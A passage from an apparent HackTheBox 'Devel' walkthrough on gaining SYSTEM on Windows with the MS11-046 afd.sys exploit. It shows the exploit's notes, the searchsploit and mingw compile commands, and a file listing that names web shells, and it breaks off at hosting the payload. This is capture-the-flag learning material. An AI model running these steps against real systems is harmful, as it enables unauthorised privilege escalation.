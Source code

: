 Using the information lets google, we can see that the exploits lets we use first exploit which is ```afd.sys```


{{< img src="/images/hackthebox/devel/7.png" alt="image alt" width="1000px"  position="center" >}}


While we get into the exploit we can able to see that exploit steps and ```EDB-ID``` which is searchsploit id 

``` c
################################################################
# Exploit notes:
#   Privileged shell execution:
#     - the SYSTEM shell will spawn within the invoking shell/process
#   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
#     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
#   Exploit prerequisites:
#     - low privilege access to the target OS
#     - target OS not patched (KB2503665, or any other related
#       patch, if applicable, not installed - check "Related security
#       vulnerabilities/patches")
#   Exploit test notes:
#     - let the target OS boot properly (if applicable)
#     - Windows 7 (SP0 and SP1) will BSOD on shutdown/reset
################################################################
```

{{< img src="/images/hackthebox/devel/8.png" alt="image alt" width="1000px"  position="center" >}}

Update **searchsploit** to ensure you have all the latest vulnerabilities.

```
searchsploit -u
```

Use the **-m** flag to look for the exploit **40564** and copy it to the current directory.

```
searchsploit -m 40564
```
Compile the ``` payload  ``` and convert it to ```.exe``` format 

If you don’t have mingw-w64 installed, install it.

``` code
apt-get updateapt-get install mingw-w64
```
```bash
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──_ $i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──_ $ls
40564.c    cmdasp.asp   iisstart.html  shell.asp    wrs1.aspx  wrs.aspx
47176.cpp  cmdasp.aspx  MS11-046.exe   welcome.png  wrs2.aspx
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
```
Host the Payload 
